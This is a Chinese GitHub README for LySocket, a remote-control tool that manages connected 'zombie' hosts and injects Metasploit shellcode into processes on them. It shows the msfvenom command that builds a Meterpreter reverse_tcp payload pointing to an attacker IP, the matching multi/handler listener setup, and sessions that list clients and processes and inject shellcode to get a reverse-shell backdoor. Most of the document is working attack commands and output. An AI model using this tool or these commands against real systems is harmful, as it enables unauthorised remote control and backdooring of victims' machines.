 # LySocket 远程ShellCode种植远控

<br>

<div align=center>

![logo](https://user-images.githubusercontent.com/52789403/191662936-77e48078-82ed-4d9b-8ae2-c1df303ed5aa.png)

</div>

<br>

LySocket 是一款使用纯 `WindowsAPI` 实现的命令行版远程控制工具，该工具通过最少的代码实现了套接字的批量管理操作，用户可以指定对远程主机内特定进程注入`ShellCode`攻击载荷，只要对端`LyClient`客户端能一直运行，则`Metasploit`攻击载荷就可以很方便的注入到目标主机任意的进程内反弹。

首先需要通过`Metasploit`工具生成一个有效载荷。
```
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置，使用时需要与载荷的位数相对应。
```
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit
```

 - 输出当前在线的客户端列表

命令`ShowSocket`可输出当前有多少肉鸡上线了，用于确定对端IP地址，该套接字列表程序内会自动维护，如果客户端下线则Socket套接字将会被清理。
```C
[ LySocket ] # ShowSocket
--------------------------------------------------------------------
索引             客户端地址              端口            状态
--------------------------------------------------------------------
0                127.0.0.1               1763            Open
1                127.0.0.1               1806            Open
2                127.0.0.1               1807            Open
3                127.0.0.1               1808            Open
--------------------------------------------------------------------
```

 - 获取客户端进程列表

命令`GetProcessList`可用于得到对段主机内有哪些进程正在运行，这是注入代码的前提条件。
```C
[ LySocket ] # GetProcessList --address 127.0.0.1
--------------------------------------------------------------------
索引             进程PID                 进程位数                进程名
--------------------------------------------------------------------
0                4       x64             System
1                124     x64             Registry
2                568     x64             smss.exe
3                856     x64             csrss.exe
4                956     x64             wininit.exe
5                964     x64             csrss.exe
6                80      x64             services.exe
7                484     x64             lsass.exe
8                564     x64             winlogon.exe
9                672     x64             svchost.exe
10               1060    x64             fontdrvhost.exe
11               1068    x64             fontdrvhost.exe
12               1100    x64             WUDFHost.exe
--------------------------------------------------------------------
```

 - 注入ShellCode到指定进程内

使用如下命令注入ShellCode到特定进程内，此时`Metasploit`即可看到反弹的后门了。
```C
[ LySocket ] # InjectRemoteCode --address 127.0.0.1 --pid 1068 --shellcode xfec12defferciruq
[+] Success..
```

